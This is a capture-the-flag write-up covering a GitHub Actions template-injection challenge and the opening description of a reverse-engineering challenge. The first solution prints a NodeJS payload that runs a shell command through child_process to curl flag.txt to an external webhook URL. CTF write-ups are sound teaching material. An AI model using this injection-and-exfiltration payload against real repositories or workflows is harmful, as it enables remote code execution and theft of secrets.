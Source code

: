 # issue-tracker

```
Author: LL3006
Description: Template injection in Github Actions
Category: Web
Points: 100
Solves: 94
```

## Description
Do you want to know the secret? If yes, post an issue here: https://github.com/hackpackctf/issue-tracker?

## Solution
By looking at the implemented Github Action, it's possible to note that it's possible to inject code using the template engine of the issues.

The payload is injected in the issue body, like this:

{% raw %}
```
{{ code here }}
```
{% endraw %}

The injected code is NodeJS, and the flag is in `flag.txt`, so it's possible to craft a payload like this:

{% raw %}
```
{{ process.mainModule.require("child_process").exec("curl --data-binary '@./flag.txt' https://webhook.site/<webhook_url>") }}
```
{% endraw %}

# Speed-Rev: Humans

```
Authors: Shotokhan & Dralute
Description: Fast reversing of mutating binaries
Category: Reverse
Points: 100
Solves: 69
```

## Description
Welcome to the Speed-Rev battle for humans! Connect to the socket! Recive binaries! AND GET! THE! FLAGS!

(There are 5 levels total, 30 minutes until you timeout) Author: Sturmh0nd#1337
nc cha.hackpack.club 41709
